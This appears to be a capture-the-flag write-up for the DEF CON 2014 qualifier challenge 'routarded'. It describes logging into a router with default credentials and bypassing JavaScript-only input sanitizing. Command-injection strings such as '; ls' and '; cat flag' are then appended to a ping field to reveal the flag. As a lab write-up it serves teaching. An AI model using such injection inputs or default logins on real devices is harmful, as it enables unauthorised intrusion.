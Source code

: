 # DEF CON CTF Qualifier 2014: routarded

**Category:** Baby’s First
**Points:** 1
**Description:**

> Wow, they forwarded http on a router with default creds?
>
> http://routarded_87f7837f50a5370771b9467d840c93c5.2014.shallweplayaga.me:5000/

## Write-up

The hint mentioned default credentials, so we tried some default credentials. After some trying, we found out the credentials were the following:

> username=
> password=admin

We used this to log in on the router. Amongst other things, there was a page to ping ip's and urls. When we attempted to add another command to that, the command was sanitized, but we saw the sanitizing happening! Great, seems like a javascript-only sanitizing!

> 8.8.8.8; ls
> 8.8.8.8

We disabled javascript and tried again. Now we got the directory listing!

> bower_components
> flag
> requirements.txt
> routarded.py
> static
> templates

The flag seemed like the right thing:

> ; cat flag

It returned the following:

> The flag is: l0l, can't believe they still do this shit

## Other write-ups

* (none yet)
